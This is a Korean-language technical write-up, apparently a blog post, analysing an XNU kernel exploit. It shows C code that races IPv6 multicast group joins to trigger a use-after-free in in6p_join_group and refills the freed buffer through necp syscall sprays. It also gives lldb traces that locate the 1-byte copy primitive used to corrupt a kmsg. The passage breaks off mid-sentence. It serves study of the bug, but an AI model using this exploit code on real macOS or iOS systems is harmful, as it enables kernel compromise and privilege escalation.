지금까지 레이싱을 통해 `get_arb_free_holder` 함수 호출하기 전과 후의 커널힙 데이터를 비교해보았다.

다시 돌아와서, 임의해제 취약점 트리거하는 레이싱 코드 살펴볼려고 한다. 
레이싱을 안정적으로 하기에 앞서 `mcast_increase_race_reliability` 호출을 3번 하는것을 볼 수 있다.

```c
mach_port_t get_arb_free_holder(void)
{
    int success = 0;
    
    // reliability voodoo
    for (int i = 0; i < 3; ++i)
    {
        mcast_increase_race_reliability();
        printf("Increase reliability...\n");
    }
    ...
```

하나의 UDPv6 소켓을 열고, 
서로 다른 멀티캐스트 그룹 주소를 동적으로 생성하면서 멀티캐스트 그룹을 가입하도록 `MCAST_JOIN_GROUP` 매개변수와 함꼐 `setsockopt` 호출하는것을 3000번 반복한다.

```c
void mcast_increase_race_reliability(void)
{
    struct group_req mreq = { 0 };
    struct sockaddr_in6 sin6 = {0};
    int s = socket(AF_INET6, SOCK_DGRAM, 0);
    
    mreq.gr_interface = 1;

    sin6.sin6_len = sizeof(sin6);
    sin6.sin6_family = AF_INET6;
    sin6.sin6_port = 7878;
    sin6.sin6_addr.__u6_addr.__u6_addr32[3] = 0;
    sin6.sin6_addr.__u6_addr.__u6_addr32[2] = 0;
    sin6.sin6_addr.__u6_addr.__u6_addr32[1] = 0;
    sin6.sin6_addr.__u6_addr.__u6_addr32[0] = (htonl(0xFF000000));

    memcpy(&mreq.gr_group, &sin6, sizeof(sin6));

    for (int i = 0; i < 3000; ++i)
    {
        ((struct sockaddr_in6 *)(&mreq.gr_group))->sin6_addr.__u6_addr.__u6_addr32[1] = i + (3000 * 3000);
        setsockopt(s, IPPROTO_IPV6, MCAST_JOIN_GROUP, &mreq, sizeof(mreq));
    }
}
```

## 2-4. 다시 돌아와서, `get_arb_free_holder` 함수 살펴보기

macOS/iOS 환경에서 새로 생성할 쓰레드에 “사용자가 시작한 즉시처리 작업” 수준의 QoS를 부여하여 **시스템이 해당 쓰레드에 더 높은 우선순위를 주도록 만든다.**

```c
mach_port_t get_arb_free_holder(void)
{
    ...
    // more reliability voodoo
    pthread_attr_t pattr;
    pthread_attr_init(&pattr);
    pthread_attr_set_qos_class_np(&pattr, QOS_CLASS_USER_INITIATED, 0);
...
```

여기서 `BYTECOPY_FIRST_TARGET` 값은 **0xfffffe228d003f64**이다.

주석을 확인해보면, 
어떤 kmsg가 손상되었는지 식별하는 데 사용하기 위해 kmsg의 트레일러 크기를 corrupt시키는 용도로, 
추후 necp 시스템콜로 스프레이할떄의 데이터로 쓰인다.

```c
#define BYTECOPY_FIRST_TARGET (KHEAP_DATA_MAPPABLE_LOC + 0x3F8C - BYTECOPY_OFFSET_IPV6) // will copy over trailer size of kmsg (used for identification of which kmsg was corrupted)
...
// initialize refill buffer, putting the target for the bytecopy primitive there
    uint8_t *necp_buf = malloc(4096);
    *(uint64_t *)(necp_buf + 0x278) = BYTECOPY_FIRST_TARGET
```

 `inp_join_group` 함수에서 레이스 컨디션으로 heap use-after-free 취약점을 통해 wild-copy를 수행하도록 만든다. 순서는 다음과 같다.

1. UaF(Use-after-Free)가 트리거될 버퍼를 **default.kalloc.1664** 크기로 늘리고, 다음 `realloc`이 발생하기 전에 최대 크기로 만든다. 
2. default.kalloc.1664에서 UaF를 트리거하고, 리필이 성공하면 bytecopy 프리미티브를 수행한다.
3. 경쟁(race) 동안 default.kalloc.1664에 있는 UaF 버퍼를 리필한다.
4. 동기화한 다음,
5. 리필이 성공했는지 확인한다. 성공했다면 손상된 kmsg를 가진 객체에 대해 손상된 트레일러 크기(trailer size)가 반환된다. 이 kmsg는 메시지 비트도 손상되어 있다. (0x80000000 - MACH_MSGH_BITS_COMPLEX )

```c
#define UAF_BUFFER_KALLOC_1664_JOIN_COUNT 64 // UaF buffer ends up in default.kalloc.1664
//...
int mcast_race_sock;

int mcast_join_group(int ip)
{
    struct group_req mreq = { 0 };
    struct sockaddr_in6 sin6 = {0};
    
    mreq.gr_interface = 1;

    sin6.sin6_len = sizeof(sin6);
    sin6.sin6_family = AF_INET6;
    sin6.sin6_port = 7878;
    sin6.sin6_addr.__u6_addr.__u6_addr32[3] = 0;
    sin6.sin6_addr.__u6_addr.__u6_addr32[2] = 0;
    sin6.sin6_addr.__u6_addr.__u6_addr32[1] = ip;
    sin6.sin6_addr.__u6_addr.__u6_addr32[0] = (htonl(0xFF000000));

    memcpy(&mreq.gr_group, &sin6, sizeof(sin6));
    
    mreq.gr_interface = 1;
    
    return setsockopt(mcast_race_sock, IPPROTO_IPV6, MCAST_JOIN_GROUP, &mreq, sizeof(mreq));
}

//...
int necp_open(int flags)
{
    return syscall(SYS_necp_open, flags);
}

int necp_client_action(int necp_fd, uint32_t action, uint8_t *client_id, size_t client_id_len, uint8_t *buffer, size_t buffer_size)
{
    return syscall(SYS_necp_client_action, necp_fd, action, client_id, client_id_len, buffer, buffer_size);
}

int spray_default_kalloc_necp(int necp_fd, uint8_t *b, uint32_t sz)
{
#define NECP_CLIENT_ADD 1
    uint8_t if_id[0x10];
    return necp_client_action(necp_fd, NECP_CLIENT_ADD, if_id, sizeof(if_id), b, sz);
}

//...
printf("Start (will fail if device has not been rebooted since last run)\n");
    kheap_data_idx = -1;
    for (int iterations = 0; iterations < 255; ++iterations)
    {
        pthread_t pt1;
        pthread_t pt2;
        int s = socket(AF_INET6, SOCK_DGRAM, 0);
        int necp_fd = necp_open(0);
        
        mcast_race_sock = s;
        
        // grow the buffer on which the UaF will be triggered to default.kalloc.1664 and
        // put it at its max size before next realloc will occur
        int ip = 0;
        for (ip = 0; ip < UAF_BUFFER_KALLOC_1664_JOIN_COUNT-2; ++ip)
        {
            mcast_join_group(ip);
        }
        
        // trigger the UaF in default.kalloc.1664, perform bytecopy primitive if refill is successful
        pthread_create(&pt1, &pattr, (void *(*)(void *))mcast_join_group, (void *)(uint64_t)ip);
        pthread_create(&pt2, &pattr, (void *(*)(void *))mcast_join_group, (void *)(uint64_t)(ip + 1));
        
        // refill the UaF buffer in default.kalloc.1664 during the race
        for (int i = 0; i < 10; ++i)
        {
            spray_default_kalloc_necp(necp_fd, necp_buf, 0x318);
        }
        
        // synchronize
        pthread_join(pt1, NULL);
        pthread_join(pt2, NULL);
        
        // find out if the refill succeeded, in which case a corrupted trailer size will be returned
        // for the holder of the corrupted kmsg, which has also had its message bits corrupted
        // (0x80000000 - MACH_MSGH_BITS_COMPLEX - now set)
        {
            for (int i = 0; i < PORTS_COUNT; ++i)
            {
                int sz = port_peek_trailer_size(kheap_data_ports[i]);
                if (sz != 8)
                {
                    printf("kheap_data_idx: %08X\n", i);
                    kheap_data_idx = i;
                    break;
                }
            }
            if (kheap_data_idx != -1)
            {
                success = 1;
                break;
            }
        }

        close(s);
        printf("iteration %d\n", iterations);
    }
```

## 2-5. 어디서 1byte-copy가 발생하는지 구체적으로 살펴보기

우선 Zer0Con 발표 슬라이드를 통해 알게 된 정보는
`inp_join_group`에서 UAF 취약점이 발생하여 wild-copy가 발생한다는 것이다.

Monterey 12.0.1 vmapple 기준 아래 사진에서 자세히 확인할 수 있다.





**Zer0con 슬라이드 발표내용을 보면 `imf_commit`에서 wild-copy가 이루어진다던데, 
문제는 두 곳에 브레이크포인트를 전부 걸어봐도 무슨 이유에선지 브레이크포인트가 hit되지 않았다.**

**그럼 대체 어디서 어떻게 1 byte-copy가 이루어지는걸까?**

```c
// xnu-8019.41.5/bsd/netinet/in_mcast.c:890-892
static void
imf_commit(struct in_mfilter *imf)
{
	struct ip_msource       *ims;
	struct in_msource       *lims;

	RB_FOREACH(ims, ip_msource_tree, &imf->imf_sources) {
		lims = (struct in_msource *)ims;
		//__text:FFFFFE0007608404 29 75 40 39  LDRB W9, [X9,#0x1D]
		//__text:FFFFFE0007608408 09 71 00 39  STRB W9, [X8,#0x1C]
		//__text:FFFFFE000760840C 0A 05 40 F9  LDR  X10, [X8,#8]
		lims->imsl_st[0] = lims->imsl_st[1];
	}
	
	//__text:FFFFFE0007608474 C8 46 40 39  LDRB W8, [X22,#0x11]
	//__text:FFFFFE0007608478 C8 42 00 39  STRB W8, [X22,#0x10]
	imf->imf_st[0] = imf->imf_st[1];
}
```

구제적으로 확인해보기 위해 
대충 키 누르기전까지 `get_arb_free_holder` 함수를 호출하기 전까지 대기상태로 만들고,

```c
    printf("before calling get_arb_free_holder\n");
    getchar();
    
    // trigger bug, get arbitrary free
    mach_port_t arb_free_holder = get_arb_free_holder();
    ...
```

**“2-1. Before vs After”에서 알수있듯이 
KHEAP_DATA_MAPPABLE_LOC+0x0, KHEAP_DATA_MAPPABLE_LOC+0x3f88 총 두 곳에서 값이 변경된다.**

해당 주소에 watchpoint를 지정해서 확인해보자.

```c
w s e -s 8 -- 0xfffffe228d000000
w s e -s 8 -- 0xfffffe228d003f88
```

흠, 정확하진 않지만 
대충 `in6p_join_group` 함수 근처에서 1 byte-copy가 발생하는 것 같았다.

```c
(lldb) w s e -s 8 -- 0xfffffe228d000000
Watchpoint created: Watchpoint 1: addr = 0xfffffe228d000000 size = 8 state = enabled type = m
    watchpoint spec = '0xfffffe228d000000'
    watchpoint resources:
       #0: addr = 0xfffffe228d000000 size = 8
Watchpoint 1 hit:
    
new value: 69853348102161
(lldb) c
Process 1 resuming

Watchpoint 1 hit:
old value: 69853348102161
new value: 69855629803537
Process 1 stopped
* thread #1, name = 'CPU0', stop reason = watchpoint 1
    frame #0: 0xfffffe0017f03100 kernel.release.vmapple`ExceptionVectorsBase + 256
kernel.release.vmapple`ExceptionVectorsBase:
->  0xfffffe0017f03100 <+256>: b      0xfffffe0017f04148 ; el1_sp0_fiq_vector_long
    0xfffffe0017f03104 <+260>: nop    
    0xfffffe0017f03108 <+264>: nop    
    0xfffffe0017f0310c <+268>: nop    
Target 0: (kernel.release.vmapple) stopped.
(lldb) bt
* thread #1, name = 'CPU0', stop reason = watchpoint 1
  * frame #0: 0xfffffe0017f03100 kernel.release.vmapple`ExceptionVectorsBase + 256
    frame #1: 0xfffffe00183d44f0 kernel.release.vmapple`in6p_join_group(inp=<unavailable>, sopt=<unavailable>) at in6_mcast.c:2310:7 [opt] [inlined]
    frame #2: 0xfffffe00183d4244 kernel.release.vmapple`ip6_setmoptions(inp=<unavailable>, sopt=<unavailable>) at in6_mcast.c:3062:11 [opt]
    frame #3: 0xfffffe00183c8068 kernel.release.vmapple`ip6_ctloutput(so=0xfffffe150f99f128, sopt=0xfffffe60298cbd80) at ip6_output.c:2723:13 [opt]
    frame #4: 0xfffffe00184d53e4 kernel.release.vmapple`sosetoptlock(so=0xfffffe150f99f128, sopt=0xfffffe60298cbd80, dolock=1) at uipc_socket.c:5035:12 [opt]
    frame #5: 0xfffffe00184e3e80 kernel.release.vmapple`setsockopt(p=0xfffffe1513aa0098, uap=0xfffffe151118a560, retval=<unavailable>) at uipc_syscalls.c:2520:10 [opt]
    frame #6: 0xfffffe0018587e84 kernel.release.vmapple`unix_syscall(state=0xfffffe1510292470, thread_act=<unavailable>, uthread=0xfffffe151118a560, proc=0xfffffe1513aa0098) at systemcalls.c:193:10 [opt]
    frame #7: 0xfffffe0018072cf4 kernel.release.vmapple`handle_svc(state=0xfffffe1510292470) at sleh.c:2419:3 [opt] [inlined]
    frame #8: 0xfffffe0018072ce8 kernel.release.vmapple`sleh_synchronous(context=0xfffffe1510292470, esr=<unavailable>, far=6097924096) at sleh.c:743:3 [opt]
    frame #9: 0xfffffe0017f0479c kernel.release.vmapple`fleh_synchronous + 40
    frame #10: 0x00000001a9705d70
    frame #11: 0x00000001a973d4ec

...

(lldb) w s e -s 8 -- 0xfffffe228d003f88
Watchpoint created: Watchpoint 1: addr = 0xfffffe228d003f88 size = 8 state = enabled type = m
    watchpoint spec = '0xfffffe228d003f88'
    watchpoint resources:
       #0: addr = 0xfffffe228d003f88 size = 8
Watchpoint 1 hit:
    
new value: 34359738368
(lldb) c
Process 1 resuming

Watchpoint 1 hit:
old value: 34359738368
new value: 0
Process 1 stopped
* thread #1, name = 'CPU0', stop reason = watchpoint 1
    frame #0: 0xfffffe001478b100 kernel.release.vmapple`ExceptionVectorsBase + 256
kernel.release.vmapple`ExceptionVectorsBase:
->  0xfffffe001478b100 <+256>: b      0xfffffe001478c148 ; el1_sp0_fiq_vector_long
    0xfffffe001478b104 <+260>: nop    
    0xfffffe001478b108 <+264>: nop    
    0xfffffe001478b10c <+268>: nop    
Target 0: (kernel.release.vmapple) stopped.
(lldb) bt
* thread #1, name = 'CPU0', stop reason = watchpoint 1
  * frame #0: 0xfffffe001478b100 kernel.release.vmapple`ExceptionVectorsBase + 256
    frame #1: 0xfffffe0014c5c4f0 kernel.release.vmapple`in6p_join_group(inp=<unavailable>, sopt=<unavailable>) at in6_mcast.c:2310:7 [opt] [inlined]
    frame #2: 0xfffffe0014c5c244 kernel.release.vmapple`ip6_setmoptions(inp=<unavailable>, sopt=<unavailable>) at in6_mcast.c:3062:11 [opt]
    frame #3: 0xfffffe0014c50068 kernel.release.vmapple`ip6_ctloutput(so=0xfffffe151067f4f0, sopt=0xfffffe6029c7bd80) at ip6_output.c:2723:13 [opt]
    frame #4: 0xfffffe0014d5d3e4 kernel.release.vmapple`sosetoptlock(so=0xfffffe151067f4f0, sopt=0xfffffe6029c7bd80, dolock=1) at uipc_socket.c:5035:12 [opt]
    frame #5: 0xfffffe0014d6be80 kernel.release.vmapple`setsockopt(p=0xfffffe15160622c8, uap=0xfffffe150fd5f3c0, retval=<unavailable>) at uipc_syscalls.c:2520:10 [opt]
    frame #6: 0xfffffe0014e0fe84 kernel.release.vmapple`unix_syscall(state=0xfffffe150f543ba0, thread_act=<unavailable>, uthread=0xfffffe150fd5f3c0, proc=0xfffffe15160622c8) at systemcalls.c:193:10 [opt]
    frame #7: 0xfffffe00148facf4 kernel.release.vmapple`handle_svc(state=0xfffffe150f543ba0) at sleh.c:2419:3 [opt] [inlined]
    frame #8: 0xfffffe00148face8 kernel.release.vmapple`sleh_synchronous(context=0xfffffe150f543ba0, esr=<unavailable>, far=4374465568) at sleh.c:743:3 [opt]
    frame #9: 0xfffffe001478c79c kernel.release.vmapple`fleh_synchronous + 40
    frame #10: 0x00000001a88a9d70
    frame #11: 0x00000001a88e14ec
```

조금 더 코드를 살펴본 결과, 
0xFFFFFE00076C0540에서 1 byte-copy가 발생하는것을 확인하였다.



- 1 byte-copy for modifying trailer size of kmsg

```c
Target 0: (kernel.release.vmapple) stopped.
(lldb) bt
* thread #3, name = 'CPU2', stop reason = breakpoint 2.1
  * frame #0: 0xfffffe0026d885b0 kernel.release.vmapple`im6f_commit(imf=<unavailable>) at in6_mcast.c:827:20 [opt] [inlined]
    frame #1: 0xfffffe0026d88520 kernel.release.vmapple`in6p_join_group(inp=<unavailable>, sopt=<unavailable>) at in6_mcast.c:2343:3 [opt] [inlined]
    frame #2: 0xfffffe0026d88244 kernel.release.vmapple`ip6_setmoptions(inp=<unavailable>, sopt=<unavailable>) at in6_mcast.c:3062:11 [opt]
    frame #3: 0xfffffe0026d7c068 kernel.release.vmapple`ip6_ctloutput(so=0xfffffe15102c87d8, sopt=0xfffffe6029bbbd80) at ip6_output.c:2723:13 [opt]
    frame #4: 0xfffffe0026e893e4 kernel.release.vmapple`sosetoptlock(so=0xfffffe15102c87d8, sopt=0xfffffe6029bbbd80, dolock=1) at uipc_socket.c:5035:12 [opt]
    frame #5: 0xfffffe0026e97e80 kernel.release.vmapple`setsockopt(p=0xfffffe1513802cb8, uap=0xfffffe1510b16e00, retval=<unavailable>) at uipc_syscalls.c:2520:10 [opt]
    frame #6: 0xfffffe0026f3be84 kernel.release.vmapple`unix_syscall(state=0xfffffe15108867c0, thread_act=<unavailable>, uthread=0xfffffe1510b16e00, proc=0xfffffe1513802cb8) at systemcalls.c:193:10 [opt]
    frame #7: 0xfffffe0026a26cf4 kernel.release.vmapple`handle_svc(state=0xfffffe15108867c0) at sleh.c:2419:3 [opt] [inlined]
    frame #8: 0xfffffe0026a26ce8 kernel.release.vmapple`sleh_synchronous(context=0xfffffe15108867c0, esr=<unavailable>, far=4487431880) at sleh.c:743:3 [opt]
    frame #9: 0xfffffe00268b879c kernel.release.vmapple`fleh_synchronous + 40
    frame #10: 0x000000019485dd70
    frame #11: 0x0000000100a80748   //_get_arb_free_holder+0x3c (-> _mcast_increase_race_reliability-> _setsockopt)
    frame #12: 0x0000000100a81270   //_exploit_get_krw_and_kernel_base+0x40
    frame #13: 0x0000000100a813b4   //_main+0x50
    frame #14: 0x0000000100e690f4
(lldb) x/4i $pc
->  0xfffffe0026d88540: ldrb   w9, [x9, #0x29]
    0xfffffe0026d88544: strb   w9, [x8, #0x28]
    0xfffffe0026d88548: ldr    x10, [x8, #0x8]
    0xfffffe0026d8854c: cbz    x10, 0xfffffe0026d88564 ; <+6200> [inlined] ip6_msource_tree_RB_GETPARENT at in6_mcast.c:164:1
(lldb) reg read  x8 x9
      x8 = 0xfffffe228d003f64
      x9 = 0xfffffe228d003f64
(lldb) x/bx 0xfffffe228d003f64+0x28
0xfffffe228d003f8c: 0x08
(lldb) x/bx 0xfffffe228d003f64+0x29
0xfffffe228d003f8d: 0x00
```

- 1 byte-copy for modifying kmsg’s message bits (`kheap_data_ports(type: ipc_port)'s kmsg->ikm_data->msgh_bits`)

```c
(lldb) br list
Current breakpoints:
1: address = kernel.release.vmapple[0xfffffe00076c0540], locations = 1, resolved = 1, hit count = 1
  1.1: where = kernel.release.vmapple`ip6_setmoptions + 6164 [inlined] im6f_commit + 32 at in6_mcast.c:825:23, address = 0xfffffe002b7fc540, resolved, hit count = 1 

(lldb) breakpoint modify 1 -c "$x9 != 0xfffffe228d003f64"

(lldb) bt
* thread #1, name = 'CPU0', stop reason = breakpoint 1.1
  * frame #0: 0xfffffe002b7fc540 kernel.release.vmapple`im6f_commit(imf=<unavailable>) at in6_mcast.c:825:23 [opt] [inlined]
    frame #1: 0xfffffe002b7fc520 kernel.release.vmapple`in6p_join_group(inp=<unavailable>, sopt=<unavailable>) at in6_mcast.c:2343:3 [opt] [inlined]
    frame #2: 0xfffffe002b7fc244 kernel.release.vmapple`ip6_setmoptions(inp=<unavailable>, sopt=<unavailable>) at in6_mcast.c:3062:11 [opt]
    frame #3: 0xfffffe002b7f0068 kernel.release.vmapple`ip6_ctloutput(so=0xfffffe15106656f8, sopt=0xfffffe6029e2bd80) at ip6_output.c:2723:13 [opt]
    frame #4: 0xfffffe002b8fd3e4 kernel.release.vmapple`sosetoptlock(so=0xfffffe15106656f8, sopt=0xfffffe6029e2bd80, dolock=1) at uipc_socket.c:5035:12 [opt]
    frame #5: 0xfffffe002b90be80 kernel.release.vmapple`setsockopt(p=0xfffffe15111b5478, uap=0xfffffe15114ace60, retval=<unavailable>) at uipc_syscalls.c:2520:10 [opt]
    frame #6: 0xfffffe002b9afe84 kernel.release.vmapple`unix_syscall(state=0xfffffe150f1a86a0, thread_act=<unavailable>, uthread=0xfffffe15114ace60, proc=0xfffffe15111b5478) at systemcalls.c:193:10 [opt]
    frame #7: 0xfffffe002b49acf4 kernel.release.vmapple`handle_svc(state=0xfffffe150f1a86a0) at sleh.c:2419:3 [opt] [inlined]
    frame #8: 0xfffffe002b49ace8 kernel.release.vmapple`sleh_synchronous(context=0xfffffe150f1a86a0, esr=<unavailable>, far=6164079312) at sleh.c:743:3 [opt]
    frame #9: 0xfffffe002b32c79c kernel.release.vmapple`fleh_synchronous + 40
    frame #10: 0x00000001af8b5d70
    frame #11: 0x00000001af8ed4ec
(lldb) x/4i $pc
->  0xfffffe002b7fc540: ldrb   w9, [x9, #0x29]
    0xfffffe002b7fc544: strb   w9, [x8, #0x28]
    0xfffffe002b7fc548: ldr    x10, [x8, #0x8]
    0xfffffe002b7fc54c: cbz    x10, 0xfffffe002b7fc564 ; <+6200> [inlined] ip6_msource_tree_RB_GETPARENT at in6_mcast.c:164:1
(lldb) reg read  x8 x9
      x8 = 0xfffffe228cffffdb
      x9 = 0xfffffe228cffffdb
(lldb) x/bx 0xfffffe228cffffdb+0x28
0xfffffe228d000003: 0x00
(lldb) x/bx 0xfffffe228cffffdb+0x29
0xfffffe228d000004: 0x88
```

추가로 `BYTECOPY_SECOND_TARGET` 값을 0x4141414141414141로 잠시 변경해보았다.
그리고 panic에 브레이크포인트를 걸어 backtrace를 확인해보면 다음과 같다.

```c
(lldb) b panic
Breakpoint 1: where = kernel.release.vmapple`panic + 20 at debug.c:872:2, address = 0xfffffe001593eea4
Process 1 stopped
* thread #1, name = 'CPU0', stop reason = breakpoint 1.1
    frame #0: 0xfffffe001593eea4 kernel.release.vmapple`panic(str="%s at pc 0x%016llx, lr 0x%016llx (saved state: %p%s)\n\t  x0:  0x%016llx x1:  0x%016llx  x2:  0x%016llx  x3:  0x%016llx\n\t  x4:  0x%016llx x5:  0x%016llx  x6:  0x%016llx  x7:  0x%016llx\n\t  x8:  0x%016llx x9:  0x%016llx  x10: 0x%016llx  x11: 0x%016llx\n\t  x12: 0x%016llx x13: 0x%016llx  x14: 0x%016llx  x15: 0x%016llx\n\t  x16: 0x%016llx x17: 0x%016llx  x18: 0x%016llx  x19: 0x%016llx\n\t  x20: 0x%016llx x21: 0x%016llx  x22: 0x%016llx  x23: 0x%016llx\n\t  x24: 0x%016llx x25: 0x%016llx  x26: 0x%016llx  x27: 0x%016llx\n\t  x28: 0x%016llx fp:  0x%016llx  lr:  0x%016llx  sp:  0x%016llx\n\t  pc:  0x%016llx cpsr: 0x%08x         esr: 0x%08x          far: 0x%016llx\n") at debug.c:872:2 [opt]
Target 0: (kernel.release.vmapple) stopped.
(lldb) bt
* thread #1, name = 'CPU0', stop reason = breakpoint 1.1
  * frame #0: 0xfffffe001593eea4 kernel.release.vmapple`panic(str="%s at pc 0x%016llx, lr 0x%016llx (saved state: %p%s)\n\t  x0:  0x%016llx x1:  0x%016llx  x2:  0x%016llx  x3:  0x%016llx\n\t  x4:  0x%016llx x5:  0x%016llx  x6:  0x%016llx  x7:  0x%016llx\n\t  x8:  0x%016llx x9:  0x%016llx  x10: 0x%016llx  x11: 0x%016llx\n\t  x12: 0x%016llx x13: 0x%016llx  x14: 0x%016llx  x15: 0x%016llx\n\t  x16: 0x%016llx x17: 0x%016llx  x18: 0x%016llx  x19: 0x%016llx\n\t  x20: 0x%016llx x21: 0x%016llx  x22: 0x%016llx  x23: 0x%016llx\n\t  x24: 0x%016llx x25: 0x%016llx  x26: 0x%016llx  x27: 0x%016llx\n\t  x28: 0x%016llx fp:  0x%016llx  lr:  0x%016llx  sp:  0x%016llx\n\t  pc:  0x%016llx cpsr: 0x%08x         esr: 0x%08x          far: 0x%016llx\n") at debug.c:872:2 [opt]
    frame #1: 0xfffffe0015946054 kernel.release.vmapple`panic_with_thread_kernel_state(msg="Kernel data abort.", ss=0xfffffe6029cc3300) at sleh.c:543:2 [opt]
    frame #2: 0xfffffe0015284ba4 kernel.release.vmapple`handle_kernel_abort(state=0xfffffe6029cc3300, esr=2516582404, fault_addr=4702111234474983745, fault_code=FSC_TRANSLATION_FAULT_L0, fault_type=1, recover=0, expected_fault_handler=<unavailable>) at sleh.c:2366:2 [opt]
    frame #3: 0xfffffe0015282d74 kernel.release.vmapple`handle_abort(state=0xfffffe6029cc3300, esr=2516582404, fault_addr=4702111234474983745, recover=0, inspect_abort=<unavailable>, handler=<unavailable>, expected_fault_handler=0x0000000000000000) at sleh.c:1169:2 [opt] [inlined]
    frame #4: 0xfffffe0015282d5c kernel.release.vmapple`sleh_synchronous(context=0xfffffe6029cc3300, esr=2516582404, far=4702111234474983745) at sleh.c:786:3 [opt]
    frame #5: 0xfffffe001511479c kernel.release.vmapple`fleh_synchronous + 40
    frame #6: 0xfffffe00155e1218 kernel.release.vmapple`ip6_msource_tree_RB_NEXT(elm=0x4141414141414141) at in6_mcast.c:164:1 [opt] [inlined]
    frame #7: 0xfffffe00155e120c kernel.release.vmapple`in6m_merge(inm=0xfffffe151d9210a0, imf=0xfffffe2286659fd0) at in6_mcast.c:1005:2 [opt]
    frame #8: 0xfffffe00155e081c kernel.release.vmapple`in6_mc_join(ifp=0xfffffe150e48cbb8, mcaddr=0xfffffe6029cc387c, imf=0xfffffe2286659fd0, pinm=0xfffffe6029cc3820, delay=0) at in6_mcast.c:1282:10 [opt]
    frame #9: 0xfffffe00155e4474 kernel.release.vmapple`in6p_join_group(inp=0xfffffe150ea2bd40, sopt=<unavailable>) at in6_mcast.c:2303:11 [opt] [inlined]
    frame #10: 0xfffffe00155e4244 kernel.release.vmapple`ip6_setmoptions(inp=0xfffffe150ea2bd40, sopt=<unavailable>) at in6_mcast.c:3062:11 [opt]
    frame #11: 0xfffffe00155d8068 kernel.release.vmapple`ip6_ctloutput(so=0xfffffe151043d330, sopt=0xfffffe6029cc3d80) at ip6_output.c:2723:13 [opt]
    frame #12: 0xfffffe00156e53e4 kernel.release.vmapple`sosetoptlock(so=0xfffffe151043d330, sopt=0xfffffe6029cc3d80, dolock=1) at uipc_socket.c:5035:12 [opt]
    frame #13: 0xfffffe00156f3e80 kernel.release.vmapple`setsockopt(p=0xfffffe1514368a88, uap=0xfffffe1510fa0000, retval=<unavailable>) at uipc_syscalls.c:2520:10 [opt]
    frame #14: 0xfffffe0015797e84 kernel.release.vmapple`unix_syscall(state=0xfffffe150f6f1090, thread_act=<unavailable>, uthread=0xfffffe1510fa0000, proc=0xfffffe1514368a88) at systemcalls.c:193:10 [opt]
    frame #15: 0xfffffe0015282cf4 kernel.release.vmapple`handle_svc(state=0xfffffe150f6f1090) at sleh.c:2419:3 [opt] [inlined]
    frame #16: 0xfffffe0015282ce8 kernel.release.vmapple`sleh_synchronous(context=0xfffffe150f6f1090, esr=<unavailable>, far=6161891120) at sleh.c:743:3 [opt]
    frame #17: 0xfffffe001511479c kernel.release.vmapple`fleh_synchronous + 40
    frame #18: 0x0000000180c09d70
    frame #19: 0x0000000180c414ec
```

해당 backtrace 정보를 통해 알 수 있는것은..
[xnu-8019.41.5/bsd/netinet6/in6_mcast.c:1005](https://github.com/apple-oss-distributions/xnu/blob/xnu-8019.41.5/bsd/netinet6/in6_mcast.c#L1005)에서 RB_FOREACH 매크로에 의해 순회하는데, 

